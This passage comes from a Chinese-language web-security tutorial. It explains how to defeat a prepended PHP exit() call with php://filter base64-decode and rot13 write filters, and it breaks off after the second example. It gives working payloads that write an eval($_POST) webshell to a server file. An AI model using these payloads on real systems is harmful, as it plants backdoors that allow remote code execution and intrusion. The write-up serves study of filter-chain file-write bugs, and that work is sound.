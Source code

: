### base64绕过

Base64编码是使用64个可打印ASCII字符（A-Z、a-z、0-9、+、/）将任意字节序列数据编码成ASCII字符串，另有"="符号用作后缀用途。

base64索引表如下

![image-20210909212605109](images/10.png)

在base64中支持的64个字符如上,在base64中除了这64个字符,在遇到其他字符的时候,将会跳过这些字符，仅将合法字符组成一个新的字符串进行解码

另外base64算法解码的时候是4个byte一组

我们最后是想让`<?php exit();`这段代码失效,除去`<,?,(),;`等不合法代码,还剩下phpexit这7个字符

因为base64解码的时候是4个byte一组,我们应该再构造一个字符,让phpexit加上我们自己添加的字符去进行base64解码,当然我们希望写入的php代码先base64编码,最后解码的时候就会被转化成php代码被执行

这里`$content=aPD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg==`

然后最后的文件内容应该是`phpexitaPD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg==`

丢进base64解码可以看到

![image-20210909213554826](images/11.png)

解码后的内容就是我们需要执行的php代码

最后的payload

```
?filename=php://filter/write=convert.base64-decode/resource=shell.php&content=aPD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg==
```

![image-20210909213906950](images/12.png)

这里就可以成功连接我们的一句话木马了

### rot13绕过

rot13的编码特性:

`str_rot13`—对字符串执行`ROT13`转换. `ROT13`编码简单地使用字母表中后面第`13`个字母替换当前字母，同时忽略非字母表中的字符。编码和解码都使用相同的函数，传递一个编码过的字符串作为参数，将得到原始字符串。

把`<?php exit();?>`进行rot13编码后变成了`<?cuc rkvg();?>`这样exit就失去了本身的作用

rot13的编码解码都使用了相同的函数,`string.rot13`的特性是编码和解码都是自身完成,当我们传递一个编码后的字符串作为参数的时候就会得到原始字符串

不过这种利用手法的前提是PHP不开启`short_open_tag`

在php的官方文档中说的`short_open_tag`默认是开启的,但是在php-ini中却是被注释掉的,把前面分号去掉

payload:

```
?filename=php://filter/write=string.rot13/resource=dawntown.php&content=?><?cuc @riny($_CBFG[1]);?>
```

写入后的内容
